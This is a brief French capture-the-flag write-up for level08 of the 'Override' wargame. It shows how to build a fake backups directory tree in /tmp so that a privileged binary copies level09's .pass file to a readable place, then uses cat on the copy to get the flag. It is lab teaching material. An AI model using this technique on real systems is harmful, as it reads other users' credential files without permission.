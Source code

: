 # Override level08

On peut voir que le fichier dans la source est ouvert deux fois: une fois sans ./backups et l autre fois avec.
La demarche a suivre est de creer un repertoire dans /tmp pour que le fichier /home/users/level09/.pass soit ecrit dans /backups/home/users/level09/.pass
''' cd tmp
    mkdir backups
    cd backups
    mkdir home
    cd home
    mkdir users
    cd users
    mkdir level09
'''

> ../home/users/level08/level08 home/users/level09/.pass
> cat backups/home/users/level09/.pass
Cela va creer un fichier .pass ou il y aura le flag a l interieur.  